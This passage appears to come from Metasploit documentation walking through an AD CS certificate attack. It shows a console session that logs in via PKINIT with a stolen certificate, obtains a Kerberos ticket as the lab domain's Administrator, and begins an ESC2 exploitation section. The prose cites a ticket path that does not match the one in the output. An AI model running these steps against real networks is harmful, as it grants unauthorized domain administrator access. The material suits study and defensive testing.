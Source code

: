 ```

msf6 auxiliary(admin/kerberos/pkinit_login) > set CERT_FILE /home/gwillcox/.msf4/loot/20221216143830_default_unknown_windows.ad.cs_338144.pfx
CERT_FILE => /home/gwillcox/.msf4/loot/20221216143830_default_unknown_windows.ad.cs_338144.pfx
msf6 auxiliary(admin/kerberos/pkinit_login) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/kerberos/pkinit_login) > run
[*] Running module against 172.30.239.85

[*] Attempting PKINIT login for Administrator@daforest.com
[+] Successfully authenticated with certificate
[*] 172.30.239.85:88 - TGT MIT Credential Cache ticket saved to /home/gwillcox/.msf4/loot/20221216143858_default_172.30.239.85_mit.kerberos.cca_391796.bin
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/pkinit_login) > loot

Loot
====

host           service  type                 name             content                   info                                                                     path
----           -------  ----                 ----             -------                   ----                                                                     ----
                        windows.ad.cs        certificate.pfx  application/x-pkcs12      DAFOREST\normal Certificate                                              /home/gwillcox/.msf4/loot/20221216143830_default_unknown_windows.ad.cs_338144.pfx
172.30.239.85           mit.kerberos.ccache                   application/octet-stream  realm: DAFOREST.COM, client: administrator, server: krbtgt/daforest.com  /home/gwillcox/.msf4/loot/20221216143858_default_172.30.239.85_mit.kerberos.cca_391796.bin

msf6 auxiliary(admin/kerberos/pkinit_login) >
```

We now have a TGT at:
```
/home/gwillcox/.msf4/loot/20221216142717_default_172.30.239.85_mit.kerberos.cca_057480.bin
```
This can be used to authenticate to the `daforest.com` domain as the `Administrator` domain administrator user.
The user that we have gotten the certificate as can be confirmed by the `client` field in the `loot` command's output, and we can confirm the domain as well by looking at the `realm` field in the same output.

## Exploiting ESC2 To Gain Domain Adminstrator Privileges
From the previous enumeration efforts we know that the following certificate templates are vulnerable to ESC2:
- SubCA - Not exploitable as you have to be a Domain Admin or Enterprise Admin to enroll in this certificate
- ESC2-Template - Enrollable by any authenticated user that is part of the Domain Users group, aka any authenticated domain user.
